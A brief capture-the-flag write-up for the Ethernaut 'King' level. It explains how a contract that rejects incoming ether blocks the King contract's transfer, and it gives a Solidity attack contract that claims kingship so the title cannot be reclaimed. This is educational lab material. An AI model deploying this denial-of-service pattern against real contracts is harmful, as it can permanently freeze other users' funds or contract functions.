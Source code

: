 # Level 7: [King](https://ethernaut.openzeppelin.com/level/0x725595BA16E76ED1F6cC1e1b65A88365cC494824)

## Level objectives:
1. Send ether to become king.
2. Prevent re-claim during submission.

## Analysis
- On submission, the owner will try to reclaim the contract using the receive() function.
- If the require passes, the owner will become the king.
- Before the owner becomes king, the previous king is transferred some ether.
- We get the .transfer function stuck by not defining a fallback function in our contract.

## Steps:

```sol
//SPDX-License-Identifier: MIT
pragma solidity ^0.6;

contract AttackKing {
    King _victim = King(0xe22db7D56C1A88C98d4551dc9eD8e96A5729cb0c);
    constructor() public payable{
        address(_victim).call{value: _victim.prize()}("");
    }
}
```
